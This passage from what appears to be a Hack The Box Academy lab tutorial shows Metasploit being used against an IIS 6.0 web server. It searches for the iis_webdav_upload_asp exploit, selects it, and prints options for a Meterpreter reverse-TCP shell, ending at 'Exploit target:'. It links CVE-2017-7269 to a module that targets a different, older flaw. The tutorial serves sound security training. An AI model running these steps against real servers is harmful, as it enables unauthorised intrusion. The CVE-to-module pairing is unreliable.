 ```shell-session
```

Next, we look up some information about the services running on this box. Specifically, we want to explore port 80 and what kind of web service is hosted there.

![](https://academy.hackthebox.com/storage/modules/39/S12\_SS01.png)

We notice it is an under-construction website—nothing web-related to see here. However, looking at both the end of the webpage and the result of the Nmap scan more closely, we notice that the server is running `Microsoft IIS httpd 6.0`. So we further our research in that direction, searching for common vulnerabilities for this version of IIS. After some searching, we find the following marker for a widespread vulnerability: `CVE-2017-7269`. It also has a Metasploit module developed for it.

**MSF - Searching for Exploit**

Meterpreter

```shell-session
msf6 > search iis_webdav_upload_asp

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/iis/iis_webdav_upload_asp  2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution


msf6 > use 0

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp


msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

```